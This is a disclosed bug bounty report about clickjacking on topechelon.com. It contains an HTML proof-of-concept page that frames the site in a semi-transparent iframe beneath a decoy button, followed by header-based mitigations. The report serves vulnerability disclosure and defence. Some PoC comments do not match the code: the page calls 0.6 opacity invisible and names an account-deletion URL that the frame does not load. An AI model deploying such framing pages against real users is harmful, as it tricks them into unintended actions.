 # Clickjacking in main domain https://topechelon.com/

## Report Details
- **Report ID**: 2964441
- **URL**: https://hackerone.com/reports/2964441
- **State**: Closed
- **Severity**: high
- **Submitted**: 2025-01-29T13:57:33.227Z
- **Disclosed**: 2025-02-10T13:17:10.542Z

## Reporter
- **Username**: genz-1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: top_echelon_software

## Vulnerability Information
## **Summary:**  
The target website is vulnerable to Clickjacking, a web-based attack that tricks users into interacting with a hidden or disguised iframe. Attackers can exploit this vulnerability to manipulate user actions, potentially leading to unauthorized activities such as unintended clicks, form submissions, or credential theft.  

## **Steps to Reproduce:**  
1. **Create an HTML page** embedding the target website using an `<iframe>`.  
2. **Modify CSS** to make the iframe transparent or overlay it with deceptive UI elements.  
3. **Host the HTML page** and trick users into interacting with it.  

## **Proof of Concept (PoC):**  
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Clickjacking PoC</title>
<style>
    iframe {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        opacity: 0.6; /* Makes the iframe invisible */
        z-index: 99;
    }

    button {
        z-index: 100;
        top:400px;
        position: relative;
    }
    h1 {
        top: 300px;
        position: relative;

    }
</style>
</head>
<body>
<h1>Click the button for a surprise!</h1>
<button onclick="alert('Surprise!')">Click Me!</button>

<!-- Invisible iframe targeting the account deletion URL -->
<iframe id="target-frame" src="https://topechelon.com/" frameborder="0"></iframe>

<script>
    
    document.getElementById('target-frame').onload = function() {
        
        console.log('Iframe has loaded, ready for clickjacking.');
    };
</script>
</body>
</html>
```
{F4001108}

## Impact

- **User Account Takeover:** If a logged-in user interacts with the iframe, attackers could force unintended actions.  
- **Phishing Attacks:** Users may unknowingly enter sensitive credentials.  
- **Malicious Actions:** Attackers can exploit user interactions to modify settings, submit forms, or perform other unintended operations.  

## **Recommended Mitigation:**  
To prevent Clickjacking attacks, implement the following security measures:  

1. **Use the X-Frame-Options HTTP Header:**  
   - `X-Frame-Options: DENY` (Prevents embedding in iframes).  
   - `X-Frame-Options: SAMEORIGIN` (Allows iframes only from the same domain).  

2. **Use Content Security Policy (CSP) Frame-Ancestors Directive:**  
   - `Content-Security-Policy: frame-ancestors 'self'`  

3. **JavaScript-Based Frame Busting (as an additional security measure):**  
   ```javascript
   if (window.top !== window.self) {
       window.top.location = window.self.location;
   }

## Attachments
- image.png
